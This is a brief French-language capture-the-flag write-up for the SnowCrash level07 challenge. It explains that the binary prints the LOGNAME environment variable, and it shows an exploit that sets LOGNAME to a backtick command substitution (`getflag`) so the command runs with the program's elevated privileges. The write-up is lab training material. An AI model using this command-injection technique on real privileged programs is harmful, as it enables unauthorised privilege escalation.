

si on ouvre l'executable sur ghidra:



`./level07` affiche simplement le contenu de la variable d’environnement `LOGNAME`.

Il suffit donc de modifier `LOGNAME` pour qu’elle contienne la commande getflag, 
et celle-ci sera executee avec les privileges du programme.
```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
```
